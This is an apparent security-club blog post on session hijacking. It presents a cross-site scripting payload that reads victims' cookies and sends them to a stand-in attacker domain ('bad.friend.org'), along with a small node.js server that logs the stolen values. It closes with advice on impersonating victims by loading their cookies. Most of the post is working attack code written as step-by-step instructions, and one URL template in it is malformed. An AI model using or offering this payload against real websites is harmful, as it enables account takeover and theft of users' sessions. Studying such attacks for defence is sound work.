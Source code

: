 ```yaml
---
layout: post
title: Session Hijacking
subtitle: Week 19 - data theft over the Internet
tags: [XSS, node, exploit]
---
```


Previously, we have demonstrated how to use [ARP poison](https://github.com/twlinux/club/wiki/Man-in-the-Middle-(MitM)-Attack-%E2%80%93-ARP-Poisoning) attacks to compromise unencrypted communication on local area networks (LAN). The attacks described below are effective over HTTPS traffic from external networks.

<center>
<iframe width="560" height="315" src="https://www.youtube-nocookie.com/embed/T1QEs3mdJoc" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
</center>

# Cookie Stealing

First, you must create an entry point on the vulnerable website with cross-site scripting. Force clients to establish a connection with your server.

## JavaScript Injection

For the code snippet below, we assume your server is accessible at the domain `bad.friend.org`.

{% highlight javascript linenos %}

let yourCookie = encodeURI(document.cookie);

// retrieve an image from the server, but send the victim's cookies as well.
let url = `http://bad.friend.org/picture.jpg?$yourCookies={yourCookie}`;
document.getElementsByTagName('image')[0].src = url;

// AJAX - Unnoticed by the typical user, low-profile payload
url = `http://bad.friend.org/gimmie?yourCookies=${yourCookie}`;
let xhr = new XMLHttpRequest();
xhr.open('GET', url, true);
xhr.send();

{% endhighlight %}

## Basic node.js Server

This is a minimal node.js server that prints HTTP request parameters to standard output.

{% highlight javascript linenos %}

const http = require('http');

http.createServer((req, res) => {

  let i = req.url.indexOf('?');
  if (i !== -1)
    console.log(req.connection.remoteAddress + ' ' + req.url.substring(i));

  res.end('thanks buddy\n');
}).listen(process.env.PORT || 8125);

{% endhighlight %}

You can impersonate victims by spoofing their unique cookie. The Chrome extension [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg) is easy to use.
